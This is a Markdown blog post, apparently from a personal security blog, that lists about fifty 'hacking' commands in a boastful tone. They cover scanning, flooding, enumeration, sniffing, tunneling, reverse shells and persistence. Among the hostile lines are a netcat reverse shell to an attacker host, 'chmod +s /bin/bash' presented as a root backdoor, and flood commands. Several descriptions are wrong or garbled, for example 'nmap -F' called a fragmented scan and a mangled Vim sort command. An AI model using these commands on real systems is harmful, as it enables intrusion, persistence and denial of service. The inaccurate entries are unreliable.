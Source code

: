 ```yaml
---
title: "The Real Top 50 Hacking Commands Every Cybersecurity Pro Must Master"
date: 2025-06-19 10:00:00 +0000
categories: [Cybersecurity, Hacking Tools]
tags: [ethical hacking, linux, terminal, pentesting, nmap, netcat, tshark, bash, reverse shell, firewalls]
image:
  path: /assets/img/top-50-terminal-commands.jpg
  alt: Terminal with hacking commands running
  width: 1200
  height: 630
pin: false
comments: true
permalink: /posts/real-top-50-hacking-commands/
---
```


# 50 Hacking Commands That’ll Melt Your Terminal (and Your Brain)

### ⚡ Hackers, Pen-Testers, Cyber Wizards — This One’s for You

Tired of “Top 5” lists that give you nothing but `ping` and `nmap -sV`?

This is **not** that. This is the **real deal**, my terminal-fu fam.

**50 legit hacking commands**, carefully crafted and field-tested by pros like **John Hammond**, **TomNomNom**, and **NetworkChuck** himself.

We're talking **ICMP tunnels**, **Wireshark’s evil twin**, **ASCII trolls**, **mass scans**, and enough `nmap` sauce to fingerprint half the internet.

---

## 🔥 Here’s What You’ll Get:

- ✅ Real-world **red teaming commands**
- ✅ **Evade firewalls** like a ghost in the wire
- ✅ **Exploit scanning**, **packet sniffing**, and **remote shells**
- ✅ Terminal memes & ASCII trains to keep things spicy

---

## 💣 The Full List: Top 50 Hacking Commands You Actually Need

Here they are, grouped by category — because chaos needs structure (kinda).

---

### 🥷 Recon & Scanning

1. `ping` — Are you even online, bro?
2. `ping -s 1300 -f <target>` — Floodzilla.
3. `hping3 -S -p 80 -V <target>` — TCP flood with flair.
4. `hping3 --traceroute` — Fancy firewall-dodging traceroutes.
5. `nmap -sn <subnet>` — Host discovery.
6. `nmap -sV <target>` — Service detection.
7. `nmap -O <target>` — OS detection.
8. `nmap -Pn <target>` — Skip ping probes.
9. `nmap -F <target>` — Stealth scan (fragmented).
10. `nmap -D RND:10 <target>` — Decoys for days.
11. `masscan -p0-65535 <range> --rate 10000` — Internet-scale scan speed.
12. `whatweb <domain>` — What tech stack we talking?
13. `whois <domain>` — Who owns this thing?
14. `WPScan --url <target> --enumerate u` — WordPress vulnerabilities.
15. `nikto -h <host>` — Quick web vuln scanning.

---

### 🔍 Subdomain & Directory Enumeration

1. `gobuster dir -u <url> -w <wordlist>` — Find hidden dirs.
2. `gobuster dns -d <domain> -w <dnslist>` — Subdomain smash.
3. `sublist3r -d <domain>` — Auto-sub discovery.
4. `amass enum -d <domain>` — Passive or active sub sweeps.
5. `wget <wordlist>` — Grab more ammo.

---

### ⚙️ Exploits & Post-Exploitation

1. `git clone <exploit-repo>` — Downloading weapons.
2. `searchsploit <term>` — Find public exploits fast.
3. `searchsploit -u` — Update your arsenal.
4. `bash -p` — Root shell if SUID is set.
5. `chmod +s /bin/bash` — Set your root backdoor.

---

### 🎯 Packet Sniffing & Network Analysis

1. `tcpdump -i any icmp` — Real-time ICMP sniffing.
2. `tcpdump -w capture.pcap` — Save it for later.
3. `tcpdump -r capture.pcap` — Read your chaos.
4. `tshark` — Wireshark CLI power.
5. `tshark -Y "http.request.method == 'GET'"` — Filter for juicy GETs.
6. `tshark -r file.pcap -qz endpoints,ip` — Who talked to who?
7. `tshark -T fields -e ip.src -e ip.dst` — Clean CSV-style output.
8. `iftop` — Bandwidth monitor wizardry.

---

### 🧠 Tunneling & Obfuscation

1. `ptunnel` — SSH over ICMP, bruh.
2. `ssh -D 1337 -C -q -N user@host` — SOCKS5 proxy via SSH.
3. `ssh user@host 'whoami'` — Remote command run.
4. `ssh user@host` — You already know.

---

### 💬 Shells & Persistence

1. `nc -lvp 1337` — Listener mode.
2. `nc -e /bin/sh <attacker> 1337` — Reverse shell. You’re in.
3. `nc -lvnp 1234 | bash` — Bash pipe shell.
4. `tmux new -s <name>` — Terminal multitool.
5. `tmux attach -t <name>` — Reattach like a boss.

---

### 🛠️ Misc Tools & Pro Tricks

1. `curl -i <url>` — Check headers like a ninja.
2. `curl -H "Auth: token" <api>` — Auth in your curl.
3. `alias ls='cat /dev/urandom'` — The chaos trap.
4. `alias ls='sl'` — Choo choo! (Steam Locomotive).
5. `cat /dev/urandom` — Nonsense, everywhere.
6. `vim -` — Pipe stdout into Vim to edit like a warlock.
7. `column %!sort` — Run sort inside Vim. What?
8. `git clone && ln -s` — Setup Git tools in a flash.

---

### 🧙 Final Words from the Command Line Cult

If you master even half of these commands, you’ll:

- Evade firewalls.
- Pop shells like champagne.
- Dissect packets with surgical precision.
- Make sysadmins scream “WTF?”

And yes, maybe even break the matrix a little.

 **—ArenRedd**